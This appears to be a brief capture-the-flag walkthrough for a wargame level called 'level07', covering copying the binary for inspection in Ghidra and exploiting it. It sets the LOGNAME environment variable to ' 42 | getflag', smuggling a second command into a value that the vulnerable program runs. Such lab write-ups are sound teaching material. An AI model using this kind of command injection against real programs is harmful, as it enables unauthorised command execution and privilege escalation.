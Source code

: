 # Download file and inspect with Ghidra
`scp -P 4242 level07@192.168.56.102:level07 .`

# Modify LOGNAME env value
`export LOGNAME=" 42 | getflag"`

# Get the flag
`./level07`
